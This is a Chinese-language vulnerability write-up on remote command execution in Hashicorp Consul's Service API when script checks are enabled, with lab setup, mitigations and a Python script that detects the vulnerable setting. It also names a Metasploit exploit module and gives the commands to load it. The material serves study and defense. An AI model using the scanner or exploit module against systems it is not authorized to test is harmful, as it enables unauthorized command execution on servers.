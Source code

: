 # Hashicorp Consul Service API远程命令执行漏洞

# Hashicorp Consul Service API远程命令执行漏洞

## 漏洞描述

2018年11月27日，Consul在官方博客中发布了关于Consul工具在特定配置下可能导致远程命令执行（RCE）漏洞的公告，并描述了防护该漏洞的配置方案。

Consul是HashiCorp公司推出的一款开源工具，用于实现分布式系统的服务发现与配置。与其他分布式服务注册与发现的方案相比，Consul提供的方案更为“一站式”。Consul内置了服务注册与发现框架、分布一致性协议实现、健康检查、Key/Value存储、多数据中心方案，不再需要依赖其他工具（例如ZooKeeper等），使用方式也相对简单。

Consul使用Go语言编写，因此具有天然的可移植性（支持Linux、Windows和Mac OS X系统）；且安装包中仅包含一个可执行文件，便于部署，可与Docker等轻量级容器无缝配合。

在特定配置下，恶意攻击者可以通过发送精心构造的HTTP请求在未经授权的情况下在Consul服务端远程执行命令。

## 漏洞影响

启用了脚本检查参数（-enable-script-checks）的所有版本

## 环境搭建

以1.2.4为例，下载地址：https://releases.hashicorp.com/consul/1.2.4/

## 漏洞复现

Windows在当前目录下执行命令：

```
#开启脚本检测功能，该功能开启后漏洞才存在
consul.exe agent -dev -client <your-target-ip>  -enable-script-checks   
```

访问`your-target-ip:8500`：

![image-20230306091757424](images/image-20230306091757424.png)

验证是否存在该远程命令执行漏洞，访问以下网址，如果`EnableRemoteScriptChecks`参数为`true`，则漏洞存在：

```
http://your-target-ip:port/v1/agent/self
```

也可以使用Meterpreter进行利用：

```
msf6 > search Hashicorp
msf6 > use exploit/multi/misc/consul_service_exec
```

## 漏洞POC

```python
import requests
import argparse
from requests.packages import urllib3
urllib3.disable_warnings()
from colorama import init
init(autoreset=True)
import json
headers={
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0'
}
def url():
	des="Hashicorp Consul Service API远程命令执行漏洞POC"
	parser = argparse.ArgumentParser(description=des)
	parser.add_argument('target_url',type=str,help='The target address,example: http://192.168.140.153')
	args = parser.parse_args() 
	target_url = args.target_url
	print("Hashicorp Consul Service API远程命令执行漏洞POC")
	print("[-]正在执行检测...")
	print(f"[-]目标地址：{target_url}",)
	return target_url
def check(target_url):
	url = target_url + '/v1/agent/self'
	try:
		response = requests.get(url=url,headers=headers,verify=False,timeout=5).text
		value = json.loads(response)['DebugConfig']['EnableRemoteScriptChecks']
		if str(value) == 'True':
			print('\033[0;31m[+]漏洞存在\033[0m')
		else:
			print('漏洞不存在')
	except Exception as a:
		print('漏洞不存在')
	
if __name__ == '__main__':
	target_url = url()
	check(target_url)
```

## 漏洞修复

- 禁用Consul服务器上的脚本检查功能
- 确保Consul HTTP API服务无法通过外网访问或调用
- 对`/v1/agent/service/register` 禁止PUT方法

